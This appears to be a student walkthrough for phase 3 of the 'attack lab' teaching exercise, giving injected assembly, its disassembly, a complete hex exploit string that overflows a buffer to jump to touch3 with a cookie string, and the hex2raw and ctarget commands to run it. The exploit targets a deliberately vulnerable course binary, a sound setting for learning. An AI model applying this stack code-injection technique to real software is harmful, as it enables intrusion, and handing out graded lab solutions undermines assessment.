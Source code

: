 phase3.s
```
movq $0x55612580, %rdi
retq
```

use commands 
linux > 
linux > 

we should get something like 

phase3.d
```

phase3.o:     file format elf64-x86-64


Disassembly of section .text:

0000000000000000 <.text>:
   0:	48 c7 c7 80 25 61 55 	mov    $0x55612580,%rdi
   7:	c3                   	retq   
```

touch3 address
ctarget.d
```
0000000000401aa0 <touch3>:
  401aa0:	53                   	push   %rbx
  401aa1:	48 89 fb             	mov    %rdi,%rbx
  401aa4:	c7 05 6e 3a 20 00 03 	movl   $0x3,0x203a6e(%rip)        # 60551c <vlevel>
  ...
``` 

Cookie Address in text format: 3131376664303631, use https://www.duplichecker.com/hex-to-text.php (without 0x at front)

grab bytes from above code and start constructing exploit string, create a attack code doc called phase3.txt as shown below

phase3.txt
``` 
48 c7 c7 80 25 61 55 c3	//*rsp + 48 the address where the cookie is present
00 00 00 00 00 00 00 00 //padding 
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
38 25 61 55 00 00 00 00 //return address ($rsp)
a0 1a 40 00 00 00 00 00 //touch3 address
31 31 37 66 64 30 36 31 //cookie string (txt format)
```

Input commands
linux> ./hex2raw < phase3.txt > 2018080106.rtarget.l1
linux> ./ctarget -q -i 2018080106.rtarget.l1
